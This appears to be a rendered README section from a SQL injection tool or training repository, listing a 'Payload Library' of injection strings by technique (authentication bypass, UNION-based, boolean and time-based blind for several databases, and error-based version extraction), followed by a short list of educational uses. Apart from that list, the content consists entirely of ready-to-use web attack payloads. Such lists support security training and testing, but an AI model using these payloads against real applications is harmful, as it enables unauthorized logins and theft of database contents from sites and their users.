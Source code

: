 ## 🔐 Payload Library

### Syntax Error Tests
```sql
'
"
```

### Authentication Bypass
```sql
' OR '1'='1
' OR 1=1--
admin' --
' OR 'x'='x
') OR ('1'='1
```

### UNION-Based
```sql
' UNION SELECT NULL--
' UNION SELECT 1,2,3--
' UNION ALL SELECT NULL,NULL--
```

### Boolean-Based Blind
```sql
' AND 1=1--
' AND 1=2--
' AND 'a'='a
```

### Time-Based Blind
```sql
'; WAITFOR DELAY '0:0:5'--      (SQL Server)
'; SELECT SLEEP(5)--             (MySQL)
'; pg_sleep(5)--                 (PostgreSQL)
```

### Error-Based
```sql
' AND EXTRACTVALUE(1,CONCAT(0x7e,VERSION()))--
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(VERSION(),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)y)--
```

## 🎓 Educational Use Cases

### Cybersecurity Training
- SQL injection fundamentals
- Web application security
- Vulnerability assessment
- Penetration testing methodology
- Secure coding practices
